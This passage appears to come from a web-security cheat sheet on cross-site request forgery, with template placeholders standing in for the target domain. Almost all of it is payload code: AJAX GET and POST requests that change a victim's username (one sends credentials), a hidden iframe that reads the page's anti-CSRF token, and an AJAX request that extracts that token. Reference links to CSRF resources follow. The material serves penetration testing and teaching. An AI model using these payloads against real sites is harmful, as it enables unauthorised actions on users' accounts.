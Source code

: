 ### AJAX GET

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/?username=0xffsec"
var xhr = new XMLHttpRequest();
xhr.open("GET", url);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send();
```

### AJAX POST

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("username=0xffsec");
```

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"username":0xffsec}');
```

{{<note>}}
AS mention [before](#content-type), try with different content types:

- `xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");`
- `xhr.setRequestHeader("Content-Type", "multipart/form-data");`
{{</note>}}

### Get Token from iFrame

```html
<script>
function getToken(){
    var iframe = document.getElementById("iframe");
    var doc = iframe.contentDocument ? iframe.contentDocument: iframe.contentWindow.document;
    var token = doc.getElementsByName("user_token")[0].value;
    console.log(token)
}
</script>
<iframe id="iframe" onload="javascript:getToken();" src="http://{{< param "war.rdomain" >}}/user/update/" style="display:none;"></iframe>
```

### Get Token with Ajax

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.responseType = "document";
xhr.open("GET", url, true);
xhr.onload = function (e) {
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        var token = xhr.response.getElementsByName("user_token")[0].value;
        console.log(token);
    }
};
xhr.send();
```


[^csrf-cgisecurity]: “The Cross-Site Request Forgery (CSRF/XSRF) FAQ.” CGISecurity - Website and Application Security News, https://www.cgisecurity.com/csrf-faq.html.
[^swissky-csrf]: swisskyrepo. “PayloadsAllTheThings/CSRF Injection at Master.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection.
[^referer-bypass]: “Bypass Referer Check Logic for CSRF.” HAHWUL, https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/.
[^referer-referrer-policy]: “Referer and Referrer-Policy Best Practices.” Web.Dev, https://web.dev/referrer-best-practices/.